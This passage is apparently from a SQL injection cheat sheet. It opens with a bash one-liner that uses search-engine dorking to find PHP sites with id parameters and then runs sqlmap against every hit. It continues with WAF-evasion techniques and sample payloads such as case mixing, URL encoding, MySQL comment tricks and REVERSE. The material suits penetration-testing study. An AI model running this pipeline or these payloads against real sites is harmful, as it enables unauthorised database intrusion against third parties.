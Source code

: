 

```bash
go-dork -q "inurl:.php?id=" -p 1 -silent | gf sqli | grep -iE "[0-999]" | unfurl format "https://%d%p?%q" | sort -u | nuclei -t sqli2.yaml -silent | grep -Po "(http[s]?:\/\/)?([^\/\s]+\/)(.*)" > sqli.txt | for line in $(cat sqli.txt);do sqlmap -u "$line" --banner ;done
```

> https://github.com/dwisiswant0/go-dork
> https://gist.githubusercontent.com/0x240x23elu/1cf0830ecc73656b79e011b471e8c167/raw/1ccd6dff3bc7fc91d31bc7eb0ba2808b1ef86e28/sqli2.yaml

> payloads:
> https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

### Techniques

#### Filter evasion

Many applications use web application firewalls (WAF) to help protect against any kind of SQL injection vulnerability. The only problem is that WAFs only look for certain words, characters, or patterns, meaning certain special characters used in combination can be used to evade WAF filter protection.

For example, a very basic WAF may filter out specific SQL keywords such as `OR`, `SELECT`, `UNION` or `WHERE` to prevent them from being used in SQL injection attacks.

**Methods**

- **Capitalization** - If the WAF's filter, like the one described above, is implemented poorly, then there may be ways to evade it by using variations of the word being filtered out. The most straightforward example is where we can bypass the filter by capitalizing some letters in the keyword, like this:
    -  `Or`, `SeLeCt`, `UNioN` and `wHEre`.
- **URL Encoding** - In cases where the query forms part of a URL, URL encoding may be a viable option for evading the filter. For example `%55` is ‘U’ and `%53` is ‘S’. The WAF may not identify these encoded characters, and may send them to the server which decodes and processes them as the intended keywords.
- **Multi-line Comments** -  the use of multi-line comments, such as `“/*”` and `“*/”`, may cause the WAF filter to miss the keywords. MySQL will read the content between the two comment lines and execute it as SQL, whereas the DBMS may not flag it up.
    - `/*!%55NiOn*/ /*!%53eLEct*//**//*!12345UNION SELECT*//**//**//*!50000UNION SELECT*//**//**/UNION/**//*!50000SELECT*//**/`
    - The ‘+’ can be used to build an injection query without the use of quotes. `+union+distinct+select++union+distinctROW+select+`
- **Inline Comments** - To bypass certain filters, you can abuse the inline comment system within MySQL using #.
    - `+#uNiOn+#sEleCt`
- **Reverse Function** - To bypass a filter looking for certain strings, you can use the REVERSE function which will evaluate the correct way around at run time. However, when going through the filter, it will be seen as ‘noinu’ instead of ‘union’.
    - `REVERSE('noinu')+REVERSE('tceles')`
- **String Splitting** - You can split strings within the query to bypass various filters. MySQL will still execute them as keywords.
    - `un?+un/**/ion+se/**/lect+`
